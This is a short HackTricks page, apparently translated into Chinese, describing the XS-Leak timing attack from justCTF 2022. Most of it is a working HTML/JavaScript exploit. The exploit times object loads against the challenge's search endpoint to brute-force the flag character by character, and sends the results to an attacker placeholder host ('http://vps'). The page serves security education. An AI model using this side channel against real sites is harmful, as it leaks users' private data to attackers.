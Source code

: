 # performance.now + Force heavy task

{{#include ../../banners/hacktricks-training.md}}

**从 [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/) 获取的漏洞**

在这个挑战中，用户可以发送数千个字符，如果标志包含在内，这些字符将被发送回机器人。因此，通过发送大量字符，攻击者可以测量标志是否包含在发送的字符串中。

> [!WARNING]
> 起初，我没有设置对象的宽度和高度，但后来我发现这很重要，因为默认大小太小，无法在加载时间上产生差异。
```html
<!DOCTYPE html>
<html>
<head> </head>
<body>
<img src="https://deelay.me/30000/https://example.com" />
<script>
fetch("https://deelay.me/30000/https://example.com")

function send(data) {
fetch("http://vps?data=" + encodeURIComponent(data)).catch((err) => 1)
}

function leak(char, callback) {
return new Promise((resolve) => {
let ss = "just_random_string"
let url =
`http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=` +
ss[Math.floor(Math.random() * ss.length)].repeat(1000000)
let start = performance.now()
let object = document.createElement("object")
object.width = "2000px"
object.height = "2000px"
object.data = url
object.onload = () => {
object.remove()
let end = performance.now()
resolve(end - start)
}
object.onerror = () => console.log("Error event triggered")
document.body.appendChild(object)
})
}

send("start")

let charset = "abcdefghijklmnopqrstuvwxyz_}".split("")
let flag = "justCTF{"

async function main() {
let found = 0
let notFound = 0
for (let i = 0; i < 3; i++) {
await leak("..")
}
for (let i = 0; i < 3; i++) {
found += await leak("justCTF")
}
for (let i = 0; i < 3; i++) {
notFound += await leak("NOT_FOUND123")
}

found /= 3
notFound /= 3

send("found flag:" + found)
send("not found flag:" + notFound)

let threshold = found - (found - notFound) / 2
send("threshold:" + threshold)

if (notFound > found) {
return
}

// exploit
while (true) {
if (flag[flag.length - 1] === "}") {
break
}
for (let char of charset) {
let trying = flag + char
let time = 0
for (let i = 0; i < 3; i++) {
time += await leak(trying)
}
time /= 3
send("char:" + trying + ",time:" + time)
if (time >= threshold) {
flag += char
send(flag)
break
}
}
}
}

main()
</script>
</body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
